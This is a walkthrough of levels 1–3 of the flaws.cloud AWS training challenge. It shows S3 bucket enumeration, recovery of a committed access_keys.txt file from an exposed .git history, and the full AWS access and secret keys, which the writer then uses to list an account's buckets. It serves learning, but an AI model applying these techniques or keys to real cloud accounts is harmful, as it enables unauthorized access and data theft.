 ## Level 1
**_Description:_** This level is *buckets* of fun. See if you can find the first sub-domain.

The emphasis on *buckets* tells me this may be related to S3 buckets. To confirm, the ```host``` command was used to obtain the site's IP address:<br>
```sh
$ host flaws.cloud 
flaws.cloud has address 52.92.241.115
flaws.cloud has address 52.92.233.11
flaws.cloud has address 52.218.234.82
flaws.cloud has address 52.92.230.107
flaws.cloud has address 52.218.133.131
flaws.cloud has address 52.92.226.227
flaws.cloud has address 52.92.209.155
flaws.cloud has address 52.218.153.106
```
A reverse DNS lookup was then performed on one of the IP addresses:
```sh
$ host 52.92.241.115
115.241.92.52.in-addr.arpa domain name pointer s3-website-us-west-2.amazonaws.com.                                                           
```
This shows that the IP is resolved to ```s3-website-us-west-2.amazonaws.com```, which is a [website endpoint](https://docs.aws.amazon.com/AmazonS3/latest/userguide/WebsiteEndpoints.html#website-endpoint-examples) used by AWS S3 for hosting static websites.

[AWS](https://docs.aws.amazon.com/Route53/latest/DeveloperGuide/getting-started-s3.html#getting-started-create-s3-website-bucket) requires the bucket and domain name to be the same, therefore we can conclude flaws.cloud as the bucket name.
Using the AWS CLI, I attempted to list the bucket's content and found the following files:
```sh
$ aws s3 ls s3://flaws.cloud/ 
2017-03-13 23:00:38       2575 hint1.html
2017-03-02 23:05:17       1707 hint2.html
2017-03-02 23:05:11       1101 hint3.html
2024-02-21 21:32:41       2861 index.html
2018-07-10 12:47:16      15979 logo.png
2017-02-26 20:59:28         46 robots.txt
2017-02-26 20:59:30       1051 secret-dd02c7c.html
```
Upon visiting the secret file, I obtained a link to progress to level 2.
```
http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
```

## Level 2
**_Description:_** The next level is fairly similar, with a slight twist. You're going to need your own AWS account for this. You just need the free tier.

Level 2 was pretty straight forward and the link to level 3 was obtained by using the same command as level 1, but with a different bucket name:

```sh
$ aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/
2017-02-26 21:02:15      80751 everyone.png
2017-03-02 22:47:17       1433 hint1.html
2017-02-26 21:04:39       1035 hint2.html
2017-02-26 21:02:14       2786 index.html
2017-02-26 21:02:14         26 robots.txt
2017-02-26 21:02:15       1051 secret-e4443fc.html
```
Link to level 3:
```
http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
```
#### Note(s): 
One thing I learned from this level was that the bucket in the level 1 was publicly accessible. Since I had already configured an account in my AWS CLI, the command I used worked fine. However, if no
account was configured (person with no AWS credentials), the ```--no-sign-request``` parameter would have been needed to list the bucket's content. 

## Level 3 
**_Description:_** The next level is fairly similar, with a slight twist. Time to find your first AWS key! I bet you'll find something that will let you list what other buckets are.

Just like the previous levels, I start off by listing the contents of the current bucket:
```sh
 aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/
                           PRE .git/
2017-02-26 19:14:33     123637 authenticated_users.png
2017-02-26 19:14:34       1552 hint1.html
2017-02-26 19:14:34       1426 hint2.html
2017-02-26 19:14:35       1247 hint3.html
2017-02-26 19:14:33       1035 hint4.html
2020-05-22 14:21:10       1861 index.html
2017-02-26 19:14:33         26 robots.txt
```
This bucket contains a .git folder! The files were downloaded to the local system for further inspection. 
```
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ .   
```
By checking the commit history, it seems that the author added something they shouldn't have in a previous commit. 
```sh
$ git log                                              
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```
By checking out the previous branch, a file was recovered containing the author's access keys:
```sh
$ git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
```
```
$ ls
access_keys.txt  authenticated_users.png  hint1.html  hint2.html  hint3.html  hint4.html  index.html  robots.txt

$ cat access_keys.txt
access_key AKIAJ366LIPB4IJKT7SA
secret_access_key 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
```
The credentials were then used to configure a new profile and S3 buckets associated with this account were listed.
```sh
$ aws configure --profile flaws
AWS Access Key ID [None]: AKIAJ366LIPB4IJKT7SA
AWS Secret Access Key [None]: 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
Default region name [None]: 
Default output format [None]: 

$ aws s3 ls --profile flaws                 
2017-02-12 16:31:07 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2017-05-29 12:34:53 config-bucket-975426262029
2017-02-12 15:03:24 flaws-logs
2017-02-04 22:40:07 flaws.cloud
2017-02-23 20:54:13 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 13:15:44 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2017-02-26 13:16:06 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2017-02-26 14:44:51 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2017-02-26 14:47:58 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2017-02-26 15:06:32 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```
Link to level 4 found :D <br>

```sh
level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
```

There were also links to level 5 and 6, however visiting them resulted in:

<img src="https://github.com/user-attachments/assets/096d2c0d-bec1-4f03-b895-f6a16cf0fad9" alt="cheat" style="display: block; margin-left: auto; margin-right:auto;">

(...busted!)

#### Note(s): 
I was unfamiliar with Git prior to attempting this level, so a considerable amount of time was spent reading up on it and understanding the basic commands. During my initial attempts, I only downloaded the .git folder rather than the entire bucket's content to my local directory, which proved to be a huge mistake as it prevented the ```git checkout``` command from working. 

## Level 4
